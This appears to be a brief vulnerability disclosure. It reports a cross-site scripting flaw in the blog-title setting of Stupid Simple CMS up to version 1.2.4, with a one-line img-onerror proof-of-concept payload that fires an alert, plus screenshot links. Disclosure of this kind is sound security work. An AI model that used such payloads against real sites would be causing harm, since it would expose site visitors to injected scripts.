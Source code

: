 product： Stupid Simple CMS ( Blogger )

download link： https://github.com/codelyfe/Stupid-Simple-CMS

version：<=1.2.4


There is Cross-Site Scripting (XSS)  vulnerability within the blog title of the settings.

![1](https://github.com/kilooooo/cms/assets/52652352/09990dea-c8dd-46b8-b6bd-00fc90509c62)


poc:
```
 "><img src=1 onerror=alert(1)> 

successed

![2](https://github.com/kilooooo/cms/assets/52652352/bec69f2a-b9b6-4603-acbd-2bb84e862871)
